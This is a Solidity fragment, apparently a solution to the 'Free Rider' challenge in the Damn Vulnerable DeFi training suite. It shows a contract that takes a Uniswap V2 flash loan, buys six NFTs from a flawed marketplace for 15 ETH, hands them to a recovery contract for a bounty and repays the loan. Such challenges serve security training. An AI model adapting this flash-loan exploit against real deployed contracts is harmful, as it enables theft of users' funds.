 ```sol
    function onERC721Received(address, address, uint256, bytes memory) external override nonReentrant returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }

    function uniswapV2Call(address, uint amount0, uint, bytes calldata) external {
        // Withdraw all WETH to ETH. We should have over 15 ETH to buy from NFTMarketPlace.
        WETH weth = WETH(payable(pair.token0()));
        weth.withdraw(amount0);
        // Buy NFTs.
        uint256[] memory tokenIds = new uint256[](6);
        for (uint i = 0; i < 6; ++i) {
            tokenIds[i] = i;
        }
        marketplace.buyMany{value: 15 ether}(tokenIds);
        // Send NFTs to recovery contract to claim bounty.
        DamnValuableNFT token = marketplace.token();
        bytes memory payload = abi.encode(player);
        for (uint i = 0; i < 6; ++i) {
            token.safeTransferFrom(address(this), address(recovery), i, payload);
        }
        // Return back the loan along with the fee.
        uint256 fee = amount0 * 3 / 997 + 1;
        uint256 repayAmount = fee + amount0;
        weth.deposit{value: repayAmount}();
        assert(weth.transfer(msg.sender, repayAmount));
    }

    // Do not forget this, as receive function is required for receiving eth.
    receive() external payable {}
}
```